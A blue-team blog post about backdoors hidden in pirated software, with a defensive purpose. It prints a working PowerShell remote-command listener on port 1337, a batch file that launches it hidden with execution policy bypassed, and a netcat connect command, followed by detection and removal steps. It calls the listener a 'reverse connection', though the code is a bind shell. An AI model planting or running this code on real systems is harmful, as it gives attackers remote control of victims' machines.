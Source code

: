 ```yaml
---
title: "
Reverse Connections Embedded in Pirated Programs"
date: 2023-02-05 17:12:41
categories: [blueteam, monitoring]
tags: [zeek, logstash, kibana, blueteam, monitoring]
---
```


## The dangers of downloading and installing pirated software from the internet

Downloading and installing pirated software might seem like an easy and cheap way to get paid programs, but this practice can expose your system to serious security risks. One of the biggest dangers is the possibility that these pirated programs contain backdoors, such as reverse connections, that allow attackers to gain remote control of your system. In this article, we will explore how these mechanisms work and how you can protect yourself.

## What is a Reverse Connection?

A reverse connection is a method by which an attacker can gain remote access to your system. This is done by configuring a listener on a specific port that waits for incoming connections. When a user installs pirated software that contains this type of backdoor, the attacker can connect to the victim's system and execute commands remotely.

## Practical Example of a Reverse Connection with PowerShell

Let's see how this can be configured using PowerShell, one of the methods frequently used by attackers.

### Step 1: Creating a PowerShell Script for the Reverse Connection

The attacker can create a PowerShell script like the following and embed it in a pirated program:

```powershell
while ($true) {
    $listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0', 1337)
    $listener.start()
    $client = $listener.AcceptTcpClient()
    $stream = $client.GetStream()
    [byte[]]$bytes = 0..65535 | % { 0 }
    while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
        $sendback = (iex $data 2>&1 | Out-String)
        $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte, 0, $sendbyte.Length)
        $stream.Flush()
    }
    $client.Close()
}
```

### Step 2: Running the Script Hidden 

To ensure the script runs hidden, the attacker can create a .bat file that starts the PowerShell script in the background:


```cmd
@echo off
start /b powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -File "%~dp0listener.ps1"
```

### Step 3: Testing the Connection 

After the victim installs and runs the pirated software, the attacker can check if the port is open and connect using tools like Netcat or Telnet:


```bash
nc [VICTIM_IP] 1337
```

## Dangers of Reverse Connections 
One of the biggest dangers of a reverse connection configured with a listener on `0.0.0.0` is that it allows anyone from anywhere in the world to connect to your system. This means that your computer can be accessed by any attacker who discovers the open port. The risks include: 
- **Credential Theft** : Attackers can capture credentials for emails, Google accounts, Microsoft accounts, social media, and other services.
 
- **System Monitoring** : They can monitor your activities, log keystrokes, and capture screenshots.
 
- **Data Theft** : Photos, documents, videos, and other files can be stolen.
 
- **Data Deletion** : Attackers can delete important files or even format the hard drive, resulting in irreparable data loss.
 
- **Malicious Use of Resources** : Your computer can be used for illegal activities such as DDoS attacks or cryptocurrency mining.

## Detecting and Terminating the Process 
 
1. **Identify the Process** : 
  - Open Command Prompt (cmd) as an administrator and run:

```cmd
netstat -aon | findstr :1337
```

  - Note the PID (Process ID) of the process listening on port 1337.
 
2. **Terminate the Process** : 
  - Run the command to terminate the process:

```cmd
taskkill /PID <PID> /F
```

## Removing the Firewall Rule 

If a firewall rule has been created to allow the connection, you can remove it:


```powershell
Remove-NetFirewallRule -DisplayName "Allow Port 1337"
```

## Prevention and Security 
 
- **Avoid Pirated Software** : The most effective way to protect your system is to avoid downloading and installing pirated software.
 
- **PowerShell Execution Policy** : Set a restrictive execution policy to prevent unauthorized script execution.

```powershell
Set-ExecutionPolicy Restricted
```
 
- **Monitor Suspicious Activities** : Use process monitoring tools to detect unusual activities.
 
- **Keep the System Updated** : Ensure your operating system and security tools are always up to date.

## Conclusion 

Using pirated software may seem like a cost-effective solution, but the risks far outweigh the benefits. Pirated programs often come with backdoors, such as reverse connections, that can give attackers control of your system. Protecting yourself against these risks involves avoiding pirated software, keeping your system updated, and monitoring for suspicious activities.